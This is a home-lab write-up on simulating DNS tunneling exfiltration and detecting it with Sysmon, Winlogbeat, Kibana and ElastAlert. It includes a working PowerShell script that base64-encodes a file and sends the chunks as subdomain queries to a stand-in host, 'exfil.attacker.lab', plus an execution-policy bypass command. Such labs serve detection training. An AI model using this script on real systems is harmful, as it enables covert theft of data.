 
# 🛡️ Task 4 – DNS Tunneling: Data Exfiltration via Encoded DNS Subdomain Queries

## 🎯 Objective

Simulate a **DNS tunneling attack** from the victim (Windows) machine to the attacker (Kali) machine. The goal is to exfiltrate encoded data through DNS queries and detect this activity using **Sysmon**, **Winlogbeat**, **Elasticsearch**, **Kibana**, and **ElastAlert**.

---

## 🧪 Lab Setup

| Component          | Machine              |
|-------------------|----------------------|
| Attacker          | Kali Linux           |
| Victim            | Windows 10 Home      |
| Monitoring Tools  | Sysmon, Winlogbeat   |
| SIEM Stack        | Elasticsearch, Kibana, ElastAlert |
| Network Mode      | Bridged              |

---

## ⚙️ Phase 1 – Setup Fake DNS Server on Kali

Install and run `dnschef` to act as a DNS server and capture queries.

```bash
sudo apt update
sudo apt install dnschef -y
sudo dnschef --fakeip 192.168.x.x --interface 192.168.x.x
```

📝 Replace `192.168.x.x` with Kali's IP address.

---

## ⚙️ Phase 2 – Create and Run PowerShell Script on Victim

### 1. Create File to Exfiltrate
```powershell
New-Item -Path "C:\Temp\secret.txt" -ItemType File -Value "This is some secret data to test DNS tunneling"
```

### 2. PowerShell Script (`dns-tunnel.ps1`)

```powershell
$filePath = "C:\Temp\secret.txt"

if (Test-Path $filePath) {
    $data = Get-Content $filePath -Raw
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encoded = [Convert]::ToBase64String($bytes)

    $chunks = ($encoded -split '(.{1,50})' | Where-Object { $_ -and $_ -ne "" })

    foreach ($chunk in $chunks) {
        $domain = "$chunk.exfil.attacker.lab"
        Write-Output "Querying: $domain"
        nslookup $domain 192.168.x.x
        Start-Sleep -Milliseconds 500
    }
} else {
    Write-Output "File not found: $filePath"
}
```

### 3. Run the Script
```powershell
powershell -ExecutionPolicy Bypass -File C:\Temp\dns-tunnel.ps1
```

---

## 🔍 Phase 3 – Monitor with Kibana

Use the following query in Kibana **Discover** tab:

```kql
event.code: "1014" and dns.question.name: *.attacker.lab
```

### 🧠 What to Look For
- `dns.question.name` showing base64-encoded subdomains
- `process.name`: `powershell.exe`
- `event.code`: `1014` (Sysmon DNS Query)

---

## 🔔 Sample Log

![alt text](<sample log.png>)

---


## ✅ Outcome

- DNS queries containing encoded data were successfully sent to the attacker.
- Sysmon logged Event ID 1014 with base64-encoded DNS requests.
- Logs were ingested into Elasticsearch via Winlogbeat.
- Kibana visualized suspicious DNS activity.
- ElastAlert rule generated alert on frequent base64 DNS queries.

---

## 📚 References

- MITRE ATT&CK T1071.004 – Application Layer Protocol: DNS
- Sysmon Event ID 1014 – DNS Query
- https://github.com/iphelix/dnschef
